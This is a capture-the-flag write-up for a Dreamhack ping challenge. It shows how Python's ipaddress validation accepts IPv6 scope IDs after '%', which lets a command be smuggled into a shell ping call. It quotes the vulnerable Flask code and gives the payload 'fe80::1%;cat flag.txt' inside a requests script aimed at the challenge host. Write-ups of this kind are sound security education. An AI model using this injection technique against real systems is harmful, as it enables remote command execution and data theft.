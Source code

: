 # solution

This challenge is interesting, you must know gg searching a lots to solve this problem. I try to put some common ips but its always display
![alt text](image.png)<br>
Hmm maybe the server do it on purpose, let look carefully at source code.

```
try:
        addr = ipaddress.ip_address(host)
    except ValueError:
        error_msg = 'Invalid IP address'
        print(error_msg)
        return render_template('index.html', result=error_msg)

    cmd = f'ping -c 3 {addr}'
    try:
        output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=8)
        return render_template('index.html', result=output.decode('utf-8'))
```

i wonder maybe i can make something with **ipaddress.ip_address()** so i goolgle searching and find this site. **https://docs.python.org/3/library/ipaddress.html#module-ipaddress**. And after read, i find interesting thing.
![alt text](image-1.png)<br>
let talk sth about this **%** symbol.

```
In IPv6, link-local addresses (e.g. fe80::/10) can only work on a local network. This means they are only used for communication between devices on the same network (not over the internet).

Why is the % sign needed when there are multiple connections, such as Wi-Fi and Ethernet?

If your computer has multiple network connections at the same time, such as Wi-Fi and Ethernet:

Both connections have their own link-local addresses, and these addresses can be the same (e.g. fe80::1 can exist on both Wi-Fi and Ethernet).

But the fe80::1 address on Wi-Fi is different from the fe80::1 address on Ethernet, because each network connection is a different path.

What does the % sign do?
The % sign specifies which network interface the IPv6 address will use. For example:

fe80::1%eth0 means the fe80::1 address on the Ethernet interface (eth0).

fe80::1%wlan0 means the fe80::1 address on the Wi-Fi interface (wlan0).

Without the % sign, the system doesn't know whether you want to use Wi-Fi or Ethernet, because the same address can appear on both interfaces.

In short:
Wi-Fi and Ethernet are two different network connections, and the same link-local IPv6 address can exist on both.

The % sign allows you to specify which interface you want to use when communicating over IPv6.
```

In sum up, if you're lazy, you just know that you can put anything after **%**. Let try basic payload to test if it can trigger cmdI.
![alt text](image-2.png)<br>
Good, now we just read the flag
![alt text](image-3.png)<br>

Here is python code for this challenge.

```
import requests

url = "http://host3.dreamhack.games:14295/ping?host="
payload = "fe80::1%;cat%20flag.txt"

url_payload = f"{url}{payload}"
res = requests.get(url=url_payload)
print(res.text)
```
